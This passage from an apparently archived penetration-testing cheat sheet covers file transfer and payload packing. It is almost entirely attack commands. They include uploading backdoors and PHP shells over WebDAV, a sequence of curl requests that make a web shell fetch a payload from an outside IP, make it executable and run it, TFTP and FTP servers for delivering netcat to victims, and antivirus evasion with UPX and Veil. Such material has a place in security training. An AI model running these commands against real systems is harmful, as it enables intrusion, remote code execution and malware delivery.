     *   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

        `davtest -move -sendbd auto -url http://$ip`

        [https://github.com/cldrn/davtest](http://web.archive.org/web/20171113221652/https://github.com/cldrn/davtest)

        You can also upload a file using the PUT method with the curl command:

        `curl -T 'leetshellz.txt' 'http://$ip'`

        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    *   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        [curl -s --data "cmd=wget [http://174.0.42.42:8000/dhn](http://web.archive.org/web/20171113221652/http://174.0.42.42:8000/dhn) -O /tmp/evil" http://$ip/files/sh.php  
        [curl -s --data "cmd=chmod 777 /tmp/evil" http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    *   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\Users\Offsec>tftp -i $ip get nc.exe

    *   FTP  
        apt-get update && apt-get install pure-ftpd

        #!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/

        /etc/init.d/pure-ftpd restart

*   ## [](#packing-files)Packing Files

    *   Ultimate Packer for eXecutables  
        upx -9 nc.exe

    *   exe2bat - Converts EXE to a text file that can be copied and pasted  
        locate exe2bat  
        wine exe2bat.exe nc.exe nc.txt

    *   Veil - Evasion Framework - [https://github.com/Veil-Framework/Veil-Evasion](http://web.archive.org/web/20171113221652/https://github.com/Veil-Framework/Veil-Evasion)  
        apt-get -y install git  
        git clone [https://github.com/Veil-Framework/Veil-Evasion.git](http://web.archive.org/web/20171113221652/https://github.com/Veil-Framework/Veil-Evasion.git)  
        cd Veil-Evasion/  
        cd setup  
        setup.sh -c
